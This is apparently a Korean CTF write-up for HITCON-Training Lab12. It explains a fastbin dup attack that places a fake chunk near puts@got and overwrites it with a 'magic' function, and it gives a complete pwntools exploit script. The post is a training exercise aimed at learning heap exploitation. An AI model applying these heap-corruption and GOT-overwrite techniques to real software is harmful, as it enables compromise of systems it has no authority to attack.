 ```yaml
---
title: "[HITCON-Training]Lab12"
date: 2019-11-18
ctf: HITCON-Training
layout: post
published : false
---
```


fastbin dup문제다.

puts@got의 주소보다 낮은 `0x601ffa` 에 사이즈가 0x60되게 할 수 있는 fake chunk를 만들 수 있다. 그러면 데이터가 쓰여지는 영역은 `0x60200a` 이고 이후 puts@got overwrite해주면 된다. 할당해주는 사이즈는 헤더를 제외한 0x50만큼만 해주면 된다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./secretgarden')
p = process('./secretgarden')
sla = lambda x,y : p.sendlineafter(x,y)
sa = lambda x,y : p.sendafter(x,y)

def add(size,name,color):
	sla(':','1')
	sla(':',str(size))
	sa(':',name)
	sla(':',color)

def visit():
	sla(':','2')

def remove(idx):
	sla(':','3')
	sla(':',str(idx))

def clean():
	sla(':','4')

def leave():
	sla(':','5')

add(0x50,'a','a')
add(0x50,'b','b')
remove(0)
remove(1)
remove(0)
add(0x50,p64(0x601ffa),'c') # fake chunk
add(0x50,'e','e')
add(0x50,'f','f')
add(0x50,'A'*22 + p64(e.symbols['magic']),'B') # puts@got 

p.interactive()
```

